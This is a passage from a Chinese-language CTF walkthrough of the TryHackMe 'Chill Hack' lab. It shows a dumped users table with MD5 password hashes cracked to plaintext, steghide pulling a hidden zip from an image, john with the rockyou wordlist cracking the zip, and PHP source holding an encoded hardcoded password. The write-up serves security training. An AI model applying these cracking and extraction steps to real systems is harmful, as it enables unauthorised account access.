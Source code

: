 mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
```

两个md5解密出来分别是：
Anurodh ：masterpassword
Apaar ：dontaskdonttell


然而这两个并不是ssh密码。。。


我们把images里面的两个文件下载到本地，用steghide分离出一个隐藏文件
```
└─# steghide extract -sf hacker-with-laptop_23-2147985341.jpg                                                                                                                                                                          127 ⨯
Enter passphrase: 
wrote extracted data to "backup.zip".
```

用zip2john把文件转成john可以读取的信息，然后再用john破解这个zip文件
```
┌──(root💀kali)-[~/tryhackme/chillhack]
└─# zip2john backup.zip >passwd.hash
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: 2b chk, TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3

┌──(root💀kali)-[~/tryhackme/chillhack]
└─# john passwd.hash passwd.hash --wordlist=/usr/share/wordlists/rockyou.txt                                                                                                                                                             1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass1word        (backup.zip/source_code.php)
1g 0:00:00:00 DONE (2021-10-27 13:06) 100.0g/s 1638Kp/s 1638Kc/s 1638KC/s total90..cocoliso
Warning: passwords printed above might not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```


解压加密zip得到一个php文件
```
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
		{ 
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>